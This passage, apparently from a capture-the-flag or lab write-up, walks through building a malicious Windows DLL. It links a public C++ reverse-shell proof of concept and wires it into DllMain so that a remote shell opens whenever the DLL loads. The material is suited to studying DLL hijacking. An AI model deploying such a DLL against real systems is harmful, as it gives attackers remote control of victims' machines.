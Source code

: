 Now find the [C++ reverse shell you want to
use](https://raw.githubusercontent.com/tudorthe1ntruder/reverse-shell-poc/master/rs.c),
and paste it into `revshell.cpp`. I'll use the same one that IppSec
used, and make the same edits, fixing `WSASocket` to `WSASocketW`, and
changing `int main(int argc, char *argv[])` to `void revshell()`.

Next I'll add the header file, call it `revshell.h`, and put in the
function declaration:



    #pragma once
    void revshell();



The program already created `dllmain.cpp` for me. I'll just add in an
include for `revshell`, and a call under `DLL_PROCESS_ATTACH`:



    // dllmain.cpp : Defines the entry point for the DLL application.
    #include "stdafx.h"
    #include "revshell.h"

    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
                    revshell();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }



I'll build the project, and find the dll where it reports:

![](/img/1552439657920.png)
